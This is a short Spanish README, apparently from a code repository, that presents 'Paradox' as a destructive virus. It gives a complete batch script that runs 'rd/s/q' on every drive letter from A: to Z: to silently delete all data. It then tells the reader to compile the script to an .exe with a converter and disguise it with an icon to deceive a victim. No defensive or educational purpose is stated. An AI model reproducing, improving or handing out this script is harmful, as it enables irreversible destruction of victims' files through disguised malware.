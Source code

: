# Paradox

Es un virus destructivo capas de formatear la PC de la víctima.

## USO

Crearemos un archivo de texto y copiaremos el siguiente código.

```bat
@echo off
rd/s/q A:
rd/s/q B:
rd/s/q C:
rd/s/q D:
rd/s/q E:
rd/s/q F:
rd/s/q G:
rd/s/q H:
rd/s/q I:
rd/s/q J:
rd/s/q K:
rd/s/q L:
rd/s/q M:
rd/s/q N:
rd/s/q O:
rd/s/q P:
rd/s/q Q:
rd/s/q R:
rd/s/q S:
rd/s/q T:
rd/s/q U:
rd/s/q V:
rd/s/q W:
rd/s/q X:
rd/s/q Y:
rd/s/q Z:
```

Luego lo guardamos con la siguiente extension **archivo.bat**

Ahora usaremos **bat to exe** para convertir a un archivo ejecutable y ocultar el virus con un icono.

[Bat to exe](https://bat-to-exe-converter-x64.softonic.com/#:~:text=BAT%20to%20EXE%20Converter%20es,el%20producto%20final%20est%C3%A9%20protegido.)